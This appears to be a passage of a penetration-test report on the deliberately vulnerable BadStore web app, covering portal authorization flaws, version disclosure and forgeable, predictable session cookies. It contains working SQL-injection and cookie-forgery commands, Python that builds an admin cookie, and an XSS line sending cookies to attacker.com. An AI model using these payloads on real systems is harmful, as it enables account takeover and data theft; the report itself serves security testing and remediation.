| CVSS Base Score | 8.8 (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi?action=admin, http://badstore:80/cgi-bin/badstore.cgi?action=supplierportal, http://badstore:80/cgi-bin/badstore.cgi?action=adminportal |
| Status | open |
Description
Critical broken function level authorization vulnerabilities allow regular authenticated users to access privileged supplier portal and admin portal interfaces without proper role validation. While some admin functions have secondary authorization checks, the portals themselves are fully accessible, exposing sensitive functionality and potential bypass opportunities.
Vulnerable Endpoints: 1.
/cgi-bin/badstore.cgi?action=admin - Admin Portal 2.
/cgi-bin/badstore.cgi?action=supplierportal - Supplier
Portal
Root Cause: No role-based authorization check on portal access endpoints. The application only validates authentication (user is logged in) but not authorization (user has required role).
Attacker Context: Regular user (recontest@example.com, role: none/U)
GET /cgi-bin/badstore.cgi?action=supplierportal HTTP/1.1
Host: badstore:80
Cookie: SSOid=cmVjb250ZXN0QGV4YW1wbGUuY29tOjJhNGRkNmJiMWJiN2NjMDgyMjJmYzllZTgxZTM5MTQwOlJl%0AY29uIFRlc3Q6%0AResponse: Full access to supplier portal
<title>Welcome to the BadStore.net Supplier Portal</title>
<h1>Welcome Supplier</h1>
<h2>Upload Price Lists</h2>
<form method="post" action="/cgi-bin/badstore.cgi?action=supupload" enctype="multipart/form-data">
<h3>Filename on local system:</h3>
<input type="file" name="uploaded_file" size="50" maxlength="80" />
<h3>Filename on BadStore.net:</h3>
<input type="text" name="newfilename" size="25" maxlength="50" />
<input type="submit" name="Upload" value="Upload" />
</form>Impact of Supplier Portal Access: - File upload functionality exposed to all users - Price manipulation capabilities - Potential for malicious file uploads (webshells, malware) - Supply chain attack vector - Business logic bypass
Attacker Context: Regular user (recontest@example.com)
GET /cgi-bin/badstore.cgi?action=admin HTTP/1.1
Host: badstore:80
Cookie: SSOid=cmVjb250ZXN0QGV4YW1wbGUuY29tOjJhNGRkNmJiMWJiN2NjMDgyMjJmYzllZTgxZTM5MTQwOlJl%0AY29uIFRlc3Q6%0AResponse: Admin portal interface displayed
<title>Private Administration Portal for BadStore.net</title>
<h2>Secret Administration Menu</h2>
<form method="post" action="/cgi-bin/badstore.cgi?action=adminportal">
<h2>Where do you want to be taken today?</h2>
<select name="admin">
<option value="View Sales Reports">View Sales Reports</option>
<option value="Reset User Password">Reset User Password</option>
<option value="Add User">Add User</option>
<option value="Delete User">Delete User</option>
<option value="Show Current Users">Show Current Users</option>
<option value="Troubleshooting">Troubleshooting</option>
<option value="Backup Databases">Backup Databases</option>
</select>
<input type="submit" name="Do It" value="Do It" />
</form>Secondary Authorization: When attempting to execute admin functions, the application responds:
<h2>Error - Recon Test is not an Admin!</h2>
Something weird happened - you tried to access the Adminstrative Portal, but you are not an Administrative User.However, the portal exposure itself is a critical vulnerability because: 1. Reveals administrative functionality to attackers 2. Information disclosure about system capabilities 3. Attack surface mapping made trivial 4. May have bypassable secondary checks 5. Can be combined with other vulnerabilities (mass assignment, session forgery)
HIGH - Broken Authorization Chain:
Chain 1: BFLA + Mass Assignment = Full Admin
1. Regular user accesses admin portal (BFLA)
2. Creates new account with role=A (Mass Assignment)
3. Full admin function access achievedChain 2: BFLA + Session Forgery = Instant Admin
1. Regular user accesses admin portal (BFLA)
2. Forges admin session cookie (Session Forgery)
3. Executes all admin functionsThe application attempts defense-in-depth with secondary authorization checks, but: - Fails at Layer 1: Portal access should be restricted by role - Incomplete Layer 2: File upload has no secondary check - Bypassable Layer 2: Admin functions can be accessed via session forgery or privilege escalation
http://badstore:80/cgi-bin/badstore.cgi?action=supplierportalhttp://badstore:80/cgi-bin/badstore.cgi?action=admin# Admin portal
sub check_admin_access {
my $role = get_user_role_from_session();
if ($role ne 'A') {
return_error("Unauthorized access");
exit;
}
}
# Supplier portal
sub check_supplier_access {
my $role = get_user_role_from_session();
if ($role ne 'S' && $role ne 'A') {
return_error("Unauthorized access");
exit;
}
}Proof of Concept
Not provided
Remediation
Not provided
Evidence
Supplier portal with file upload functionality accessible by regular user without supplier role: images/finding-e8f4aea3-4081-4153-9ba0-a489d31611c8-25-supplier_portal_access.html
Admin portal interface with sensitive functions visible to regular user demonstrating information disclosure: images/finding-e8f4aea3-4081-4153-9ba0-a489d31611c8-26-admin_access_regular_user.html
Visual proof of supplier portal file upload form accessible to regular authenticated user

| Severity | |
| CVSS Base Score | 5.3 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi, All application pages, HTTP response headers |
| Status | open |
Description
The application exposes detailed version information in page footers and HTTP headers, providing attackers with reconnaissance data for targeted exploit selection.
Disclosed Information: 1. Application version in footer: ‘BadStore v1.2.3s - Copyright © 2004-2005’ 2. Server header: ‘Apache/2.4.65 (Debian)’ 3. Exact application build version (v1.2.3s) 4. Operating system details (Debian) 5. Web server version (Apache 2.4.65)
Exploitation: 1. Version string visible on every page footer 2. Server: Apache/2.4.65 (Debian) header present in all HTTP responses 3. Enables targeted vulnerability research for specific versions 4. Attacker can search CVE databases for known exploits 5. Reduces attacker reconnaissance time
Attack Enhancement: - CVE search: ‘Apache 2.4.65 vulnerabilities’ - Version-specific exploit selection - Automated vulnerability scanners can target known weaknesses - Reduces attack trial-and-error
Impact: Information leakage that aids attackers by: - Revealing exact software versions for exploit research - Confirming technology stack details - Enabling targeted attack planning - Reducing attacker effort and time-to-compromise - Facilitating automated vulnerability scanning
Proof of Concept
Not provided
Remediation
Remove version information from page footers. Configure Apache to suppress Server header using ServerTokens Prod directive. Implement generic error pages without version details.
Evidence
Application version disclosure in page footer (BadStore v1.2.3s): images/finding-4479e04f-580b-4043-adc9-b4af6952dfd1-28-version-disclosure-1772158762.txt
Server banner disclosure showing Apache/2.4.65 (Debian): images/finding-4479e04f-580b-4043-adc9-b4af6952dfd1-29-server-banner-disclosure-1772158764.txt
| Severity | |
| CVSS Base Score | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| Assets | http://badstore:80/cgi-bin/badstore.cgi, http://badstore:80/cgi-bin/test.cgi, http://badstore:80/cgi-bin/badstore.cgi?action=logout, http://badstore:80/cgi-bin/badstore.cgi?action=admin, SSOid session cookie, Session management system |
| Status | open |
Description
The application implements fundamentally broken session management with multiple critical vulnerabilities that collectively enable complete authentication bypass, session hijacking, and persistent unauthorized access. These vulnerabilities exist across the entire session lifecycle: generation, storage, transmission, and termination.
Vulnerable Endpoint:
/cgi-bin/test.cgi
Root Cause: Session IDs are Unix timestamps that increment sequentially by 1 per second, exposed via a debug endpoint.
Exploitation: 1. Access http://badstore:80/cgi-bin/test.cgi to observe session generation 2. Session IDs increment sequentially: 1772158317, 1772158318, 1772158319 3. Generate session IDs around current timestamp 4. Test predicted session IDs by setting SSOid cookie 5. Valid sessions grant immediate account access
Impact: Attackers can enumerate and hijack any active session within a 30-minute window by testing ~1800 sequential IDs.
Vulnerable Component: SSOid Cookie
Cookie Structure:
base64(email:md5_hash:fullname:role)
Example decoded:
admin:5EBE2294ECD0E0F08EAB7690D2A6EE69:Master System Administrator:A
Critical Flaws: - No cryptographic signature or HMAC - Client-side trust model - all session data in cookie - Predictable structure enables forgery - Role assignment controlled by cookie content
Exploitation: 1. Obtain admin credentials via SQL
injection or other disclosure 2. Construct payload:
admin:5EBE2294ECD0E0F08EAB7690D2A6EE69:Master System Administrator:A
3. Base64 encode and set as SSOid cookie 4. Access admin portal with
full privileges
Impact: Complete authentication bypass - attackers can forge sessions for any user without knowing passwords.
Vulnerable Cookie: SSOid
Cookie Attributes:
Set-Cookie: SSOid=value; path=/ (no HttpOnly, no Secure,
weak SameSite)
Exploitation: 1. Session cookie accessible via
JavaScript: document.cookie 2. XSS payload can steal
cookies: fetch('http://attacker.com/?c='+document.cookie)
3. Stolen cookie grants complete session control 4. Cookie transmitted
over unencrypted connections
Impact: Enables session hijacking via XSS attacks and network interception (MITM).
Vulnerable Endpoint:
/cgi-bin/badstore.cgi?action=logout
Root Cause: No server-side session invalidation
Exploitation: 1. User logs in and receives session cookie 2. User accesses admin portal successfully 3. User clicks logout 4. Same session cookie remains valid 5. Admin portal still accessible with old cookie
Impact: Sessions never expire, enabling persistent access after logout on shared computers, and replay of stolen/leaked session cookies indefinitely.
Scenario 1: Session Enumeration + Forgery 1. Use test.cgi to identify session ID pattern 2. Extract admin MD5 hash via SQL injection 3. Forge admin session cookie 4. Access admin functions with full privileges
Scenario 2: XSS + Cookie Theft + Persistent Access 1. Inject XSS payload in guestbook 2. Admin views guestbook - cookie stolen via JavaScript 3. Attacker uses stolen admin session 4. Even after admin logs out, session remains valid 5. Persistent admin access maintained
Scenario 3: Network Interception 1. Attacker performs MITM on unencrypted connection 2. Captures SSOid cookie (no Secure flag) 3. Decodes cookie to extract credentials 4. Uses session or forges new admin session
CRITICAL - Complete Security Failure:
curl http://badstore:80/cgi-bin/test.cgi
# Returns: 1772158400, 1772158401, 1772158402...curl 'http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=x%27+UNION+SELECT+email,passwd,fullname,null+FROM+userdb--+-'
# Extract: admin:5EBE2294ECD0E0F08EAB7690D2A6EE69:Master System Administratorimport base64
payload = "admin:5EBE2294ECD0E0F08EAB7690D2A6EE69:Master System Administrator:A"
forged_cookie = base64.b64encode(payload.encode()).decode()
print(f"SSOid={forged_cookie}")curl -H "Cookie: SSOid=YWRtaW46NUVCRTIyOTRFQ0QwRTBGMDhFQUI3NjkwRDJBNkVFNjk6TWFzdGVyIFN5c3RlbSBBZG1pbmlzdHJhdG9yOkE=" \
'http://badstore:80/cgi-bin/badstore.cgi?action=admin'
# Full admin access grantedcurl -H "Cookie: SSOid=..." 'http://badstore:80/cgi-bin/badstore.cgi?action=logout'
curl -H "Cookie: SSOid=..." 'http://badstore:80/cgi-bin/badstore.cgi?action=admin'
# Still works - session not invalidatedalert(document.cookie)Remove test.cgi from production immediately
Invalidate all existing sessions - force re-authentication
Implement server-side session storage (Redis, database, or secure in-memory store)
Generate cryptographically secure session IDs:
openssl rand -base64 32Set secure cookie flags:
Set-Cookie: SSOid=<secure_random_id>; Path=/; HttpOnly; Secure; SameSite=StrictImplement server-side session invalidation:
Proof of Concept
Not provided
Remediation
Not provided
Evidence
Session cookie attributes showing httpOnly=false and secure=false: images/finding-6246bad6-04de-4b6e-a7e7-2c2570ff35ff-5-session-cookie-attributes-1772158370.json
Admin portal accessible with insecure session cookie

test.cgi showing sequential timestamp-based session IDs (1772158317-1772158321): images/finding-6246bad6-04de-4b6e-a7e7-2c2570ff35ff-8-test-cgi-session-exposure-1772158319.html
Admin portal access using forged session cookie demonstrating successful authentication bypass: images/finding-6246bad6-04de-4b6e-a7e7-2c2570ff35ff-16-forged_admin_test.html
Complete session forgery process showing cookie structure analysis and admin session creation: images/finding-6246bad6-04de-4b6e-a7e7-2c2570ff35ff-18-session_forgery_http_flow.txt
| Abbreviation | Description |
|---|---|
| API | Application Programming Interface |
| CAPTCHA | Completely Automated Public Turing test to tell Computers and Humans Apart |
| CVSS | Common Vulnerability Scoring System |
| FTP | File Transfer Protocol |
| IDOR | Insecure Direct Object Reference |
| MD5 | Message-Digest Algorithm 5 |
| OAuth | Open Authorization |
| ORM | Object-Relational Mapping |
| OWASP | Open Web Application Security Project |
| PII | Personally Identifiable Information |
| SQL | Structured Query Language |
| TOTP | Time-based One-Time Password |
| URI | Uniform Resource Identifier |
| WAF | Web Application Firewall |
+—————-+———————————————+